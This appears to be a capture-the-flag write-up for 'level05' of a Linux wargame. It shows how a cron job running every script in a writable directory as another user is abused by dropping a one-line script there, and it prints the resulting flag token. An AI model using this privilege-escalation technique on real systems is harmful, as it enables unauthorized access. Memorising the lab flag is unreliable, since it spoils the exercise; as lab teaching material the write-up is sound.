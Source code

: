 # level05 solve

After a few minutes we receive a message

```
> You have new mail in /var/mail/level05
```

Opening the file we got a bash command

```
$ cat level05
> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

But some part was weird, so we decide to learn on the web what could be appends running that command.
After some research, we understood that was a <a href="https://cron-job.org/en/">cronjob</a> (search <a href="https://book.cakephp.org/2/fr/console-and-shells/cron-jobs.html">1</a>, <a href="https://www.thegeekstuff.com/2011/07/cron-every-5-minutes/">2</a>)

So with being informed, we decide to see what the cron script does

```
$ cat /usr/sbin/openarenaserver
> #!/bin/sh
>
> for i in /opt/openarenaserver/* ; do
>         (ulimit -t 5; bash -x "$i")
>         rm -f "$i"
> done
```

Because it's a cron, we know that will be a loop on all scripts in the folder, running and be deleted, and that every 2 minutes.

With that knowledge, we can create a script to get the password

Ok let's try that

```
$ echo "getflag > /tmp/flag" > /opt/openarenaserver/file
```

Waiting some time later (2min max)

```
$ cat /tmp/flag
> viuaaale9huek52boumoomioc
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level04">previous level</a> - <a href="../../level06">next level</a>
